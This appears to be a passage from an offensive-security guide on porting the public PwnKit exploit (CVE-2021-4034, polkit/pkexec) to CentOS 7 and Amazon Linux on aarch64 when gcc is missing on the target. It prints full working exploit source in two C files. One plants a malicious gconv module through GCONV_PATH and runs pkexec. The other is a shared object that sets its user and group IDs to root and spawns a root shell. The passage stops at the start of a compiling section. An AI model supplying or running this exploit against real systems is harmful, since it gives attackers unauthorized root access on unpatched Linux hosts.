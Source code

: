# Compiling [CVE-2021-4034] for Centos7/aarch64

[CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/) (aka polkit/pkexec) is an exploit that can not be compiled statically. The exploit tricks the vulnerable program to load a dynamically shared object (.so file) during runtime. A dynamically shared object can never be static.

## Preparing the exploit

The [Proof-of-Concept exploit](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c) for CVE-2021-4034 needs to be modified slightly. At the moment the exploit executes gcc to compile a shared object on the target. Our assumption is that gcc is not available on the target platform and thus the [Proof-of-Concept exploit](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c) would fail. 

We need to modify the [Proof-of-Concept exploit](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c):
1. Split it into two separate .c files.
1. Modify the source to copy the pre-compiled .so file instead of calling gcc at runtime.
1. Compile both .c files separately.

thc-polkit.c
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	system("cp pwnkit.so pwnkit/pwnkit.so");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

pwnkit.c
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
	setuid(0); setgid(0);
	seteuid(0); setegid(0);
	system("export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh");
}
```

## Compiling

Any of the 3 methods discussed earlier can be used to compile the exploit. In this example I use QEMU & Docker on my MacOS/x86_64. The exploit will execute (and own) Amazon Linux on aarch64:
